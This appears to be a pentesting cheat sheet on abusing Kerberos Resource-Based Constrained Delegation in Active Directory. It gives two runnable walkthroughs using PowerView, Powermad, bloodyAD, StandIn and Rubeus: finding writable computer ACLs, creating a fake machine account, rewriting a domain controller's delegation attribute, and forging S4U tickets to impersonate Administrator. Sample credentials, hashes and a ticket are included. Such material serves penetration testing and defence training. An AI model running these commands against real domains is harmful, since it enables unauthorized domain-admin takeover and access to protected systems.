 # Kerberos Delegation - Resource Based Constrained Delegation

Resource-based Constrained Delegation was introduced in Windows Server 2012.

> The user sends a Service Ticket (ST) to access the service ("Service A"), and if the service is allowed to delegate to another pre-defined service ("Service B"), then Service A can present to the authentication service the TGS that the user provided and obtain a ST for the user to Service B.  <https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html>

## HTB Method (Windows)
> Requirements: 
  1. Access to a user or group that has enough privileges to modify the msds-allowedtoactonbehalfofotheridentity. Commonly GenericWrite/All, WriteProperty, or Write DACL 
  2. Control of another object that has an SPN

1. Search RBCD 
  ```powershell
  Import-Module ./powerview.ps1

  # Get all computers in the domain into a variable
  $computers = Get-DomainComputer

  # Get all users in the domain into a variable
  $users = Get-DomainUser

  # Define the required access rights in a variable
  $accessrights = "GenericWrite","GenericAll","WriteProperty","WriteDACL"

  # Loop though each computer in the domain
  foreach ($computer in $computers){
      # get the security Descriptor for the computer
      $acl = Get-DomainObjectACL -SamAccountName $computer.SamAccountName -ResolveGUIDs

      # Loop through each user in the domain
      foreach ($user in $users) {
          $hasAccess = $acl | ?{$_.SecurityIdentifier -eq $user.objectsid} | %{($_.ActiveDirectoryRights -match ($accessRights -join '|'))}

          if ($hasAccess) {
              Write-Output "$($user.SamAccountName) has the required access rights on $($computer.name)"
          }
      }
  }
  ```
2. RBCD Enumeration
  ```powershell
  .\SearchRBCD.ps1
  ```
3. Use PowerMad to create a fake computer
  ```powershell
  Import-Module .\Powermad.ps1
  New-MachineAccount -MachineAccount <FakeMachineName> -Password $(ConvertTo-SecureString "<password>" -AsPlainText -Force)
  ```
4. Modify the target computers
  ```powershell
  Import-Module .\Powerview.ps1
  $ComputerSid = Get-DomainComputer <FakeMachineName> -Properties objectsid | Select -Expand objectsid
  $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
  $SDBytes = New-Object byte[] ($SD.BinaryLength)
  $SD.GetBinaryForm($SDBytes, 0)
  $credentials = New-Object System.Management.Automation.PSCredential "INLANEFREIGHT\carole.holmes", (ConvertTo-SecureString "Y3t4n0th3rP4ssw0rd" -AsPlainText -Force)
  Get-DomainComputer DC01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Credential $credentials -Verbose
  ```
5. Get Computer hashes with Rubeus
  ```powershell
  .\Rubeus.exe hash /password:Hackthebox123+! /user:HACKTHEBOX$ /domain:inlanefreight.local
  ```
6. s4u to Impersonate the Administrator
  ```powershell
  .\Rubeus.exe s4u /user:HACKTHEBOX$ /rc4:CF767C9A9C529361F108AA67BF1B3695 /impersonateuser:administrator /msdsspn:cifs/dc01.inlanefreight.local /ptt
  ```
  > Note: We can also use /altservice:host,RPCSS,wsman,http,ldap,krbtgt,winrm to include aditional services to our ticket request.
7. Connect to the target Machine 
  ```powershell
  ls \\dc01.inlanefreight.local\c$
  ```
8. Clean up 
  ```powershell
  Import-Module .\PowerView.ps1
  $credentials = New-Object System.Management.Automation.PSCredential "INLANEFREIGHT\carole.holmes", (ConvertTo-SecureString "Y3t4n0th3rP4ssw0rd" -AsPlainText -Force)
  Get-DomainComputer DC01 | Set-DomainObject -Clear msDS-AllowedToActOnBehalfOfOtherIdentity -Credential $credentials -Verbose
  ```

## Swisskey Method 

1. Import **Powermad** and **Powerview**

    ```powershell
    PowerShell.exe -ExecutionPolicy Bypass
    Import-Module .\powermad.ps1
    Import-Module .\powerview.ps1
    ```

2. Get user SID

    ```powershell
    $AttackerSID = Get-DomainUser SvcJoinComputerToDom -Properties objectsid | Select -Expand objectsid
    $ACE = Get-DomainObjectACL dc01-ww2.factory.lan | ?{$_.SecurityIdentifier -match $AttackerSID}
    $ACE
    ConvertFrom-SID $ACE.SecurityIdentifier

    # alternative (Windows/Linux)
    bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get writable --otype COMPUTER --detail | egrep -i 'distinguishedName|msds-allowedtoactonbehalfofotheridentity'
    ```

3. Abuse **MachineAccountQuota** to create a computer account and set an SPN for it

    ```powershell
    New-MachineAccount -MachineAccount swktest -Password $(ConvertTo-SecureString 'Weakest123*' -AsPlainText -Force)

    # alternative (Windows/Linux)
    bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 add computer swktest 'Weakest123*'
    ```

4. Rewrite DC's **AllowedToActOnBehalfOfOtherIdentity** properties

    ```powershell
    $ComputerSid = Get-DomainComputer swktest -Properties objectsid | Select -Expand objectsid
    $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
    $SDBytes = New-Object byte[] ($SD.BinaryLength)
    $SD.GetBinaryForm($SDBytes, 0)
    Get-DomainComputer dc01-ww2.factory.lan | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
    $RawBytes = Get-DomainComputer dc01-ww2.factory.lan -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
    $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
    $Descriptor.DiscretionaryAcl

    # alternative (Windows/Linux)
    # use 'remove' instead of 'add' after exploit
    bloodyAD --host 10.1.0.4 -u user -p 'totoTOTOtoto1234*' -d crash.lab add rbcd 'dc01-ww2$' 'swktest$'
    ```

    ```ps1
    # alternative
    $SID_FROM_PREVIOUS_COMMAND = Get-DomainComputer MACHINE_ACCOUNT_NAME -Properties objectsid | Select -Expand objectsid
    $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$SID_FROM_PREVIOUS_COMMAND)"; $SDBytes = New-Object byte[] ($SD.BinaryLength); $SD.GetBinaryForm($SDBytes, 0); Get-DomainComputer DC01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

    # alternative
    StandIn_Net35.exe --computer dc01 --sid SID_FROM_PREVIOUS_COMMAND
    ```

5. Use Rubeus to get hash from password

    ```powershell
    Rubeus.exe hash /password:'Weakest123*' /user:swktest$  /domain:factory.lan
    [*] Input password             : Weakest123*
    [*] Input username             : swktest$
    [*] Input domain               : factory.lan
    [*] Salt                       : FACTORY.LANswktest
    [*]       rc4_hmac             : F8E064CA98539B735600714A1F1907DD
    [*]       aes128_cts_hmac_sha1 : D45DEADECB703CFE3774F2AA20DB9498
    [*]       aes256_cts_hmac_sha1 : 0129D24B2793DD66BAF3E979500D8B313444B4D3004DE676FA6AFEAC1AC5C347
    [*]       des_cbc_md5          : BA297CFD07E62A5E
    ```

6. Impersonate domain admin using our newly created machine account

    ```powershell
    .\Rubeus.exe s4u /user:swktest$ /rc4:F8E064CA98539B735600714A1F1907DD /impersonateuser:Administrator /msdsspn:cifs/dc01-ww2.factory.lan /ptt /altservice:cifs,http,host,rpcss,wsman,ldap
    .\Rubeus.exe s4u /user:swktest$ /aes256:0129D24B2793DD66BAF3E979500D8B313444B4D3004DE676FA6AFEAC1AC5C347 /impersonateuser:Administrator /msdsspn:cifs/dc01-ww2.factory.lan /ptt /altservice:cifs,http,host,rpcss,wsman,ldap

    [*] Impersonating user 'Administrator' to target SPN 'cifs/dc01-ww2.factory.lan'
    [*] Using domain controller: DC01-WW2.factory.lan (172.16.42.5)
    [*] Building S4U2proxy request for service: 'cifs/dc01-ww2.factory.lan'
    [*] Sending S4U2proxy request
    [+] S4U2proxy success!
    [*] base64(ticket.kirbi) for SPN 'cifs/dc01-ww2.factory.lan':

        doIGXDCCBligAwIBBaEDAgEWooIFXDCCBVhhggVUMIIFUKADAgEFoQ0bC0ZBQ1RPUlkuTEFOoicwJaAD
        AgECoR4wHBsEY2lmcxsUZGMwMS[...]PMIIFC6ADAgESoQMCAQOiggT9BIIE
        LmZhY3RvcnkubGFu

    [*] Action: Import Ticket
    [+] Ticket successfully imported!
    ```

## References

* [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory - 28 January 2019 - Elad Shami](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [A Case Study in Wagging the Dog: Computer Takeover - Will Schroeder - Feb 28, 2019](https://posts.specterops.io/a-case-study-in-wagging-the-dog-computer-takeover-2bcb7f94c783)
